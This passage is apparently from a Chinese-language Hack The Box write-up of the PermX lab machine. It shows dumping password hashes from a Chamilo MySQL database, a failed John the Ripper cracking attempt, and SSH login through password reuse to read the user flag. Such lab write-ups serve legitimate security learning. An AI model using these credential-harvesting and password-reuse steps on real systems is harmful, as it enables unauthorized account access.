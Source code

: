 进入数据库，稍微探索一下获得两个加密凭据信息：
```
www-data@permx:/var/www/chamilo$ mysql -u chamilo -p03F6lY3uXAP2bkW8


MariaDB [chamilo]> select username,lastname,firstname, password from user;
+----------+-----------+-----------+--------------------------------------------------------------+
| username | lastname  | firstname | password                                                     |
+----------+-----------+-----------+--------------------------------------------------------------+
| admin    | Miller    | Davis     | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra |
| anon     | Anonymous | Joe       | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS |
+----------+-----------+-----------+--------------------------------------------------------------+
```

复制到本地整理一下准备暴破：
```bash
┌──(kali㉿kalik)-[~/HTB/PermX/infoG]
└─$ cat db-creds.txt | grep 2y | awk -F '|' '{OFS=":";print $2,$3}' | tr -d ' ' > db-creds-trim.txt

┌──(kali㉿kalik)-[~/HTB/PermX/infoG]
└─$ cat db-creds-trim.txt 
admin:$2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra
anon:$2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS

┌──(kali㉿kalik)-[~/HTB/PermX/infoG]
└─$ john db-creds-trim.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

……运行了一阵子，暴破无果。感觉可能是兔子洞。

#### 密码重用拿下mtz用户

想想前面的密码一拿到的时候就直接“被引导”进入MySQL了。该试一下密码重用的。

尝试一下`mtz:03F6lY3uXAP2bkW8`，SSH成功登入：
```bash
┌──(kali㉿kalik)-[~/HTB/PermX/infoG]
└─$ ssh mtz@10.10.11.23           
<...SNIP...>
mtz@10.10.11.23's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)
<...SNIP...>
Last login: Mon Jul  1 13:09:13 2024 from 10.10.14.40
```

## flag: user

```bash
mtz@permx:~$ ls
user.txt
mtz@permx:~$ cat user.txt 
a9ff<...SNIP...>9206
```

